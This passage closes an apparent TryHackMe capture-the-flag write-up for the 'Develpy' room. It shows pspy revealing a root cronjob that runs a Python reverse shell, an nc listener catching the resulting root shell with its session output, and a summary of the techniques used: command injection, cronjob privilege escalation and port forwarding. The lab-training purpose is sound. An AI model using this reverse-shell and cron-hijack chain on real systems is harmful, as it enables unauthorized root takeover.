 - Run it:

```
king@ubuntu:~$ /tmp/pspy
[...]
2022/09/05 03:18:01 CMD: UID=0    PID=3255   | python /root/company/media/revshell.py
```

Now we can setup a `nc` listener, and wait for the cronjob runs:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.208.69] 52020
/bin/sh: 0: can't access tty; job control turned off
# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:20:44:86:68:bd brd ff:ff:ff:ff:ff:ff
    inet 10.10.208.69/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20:44ff:fe86:68bd/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

# Rooted

**root.txt:**
```
bash-4.3# cat /root/root.txt
{Redacted}
```

# Conclusion

What we've learned:

1. Python Command Injection
2. Privilege Escalation via Misconfigured Cronjob for `root.sh`
3. Local Port Forwarding
4. Privilege Escalation via Uploading Python Reverse Shell & Trigger It Via Cronjob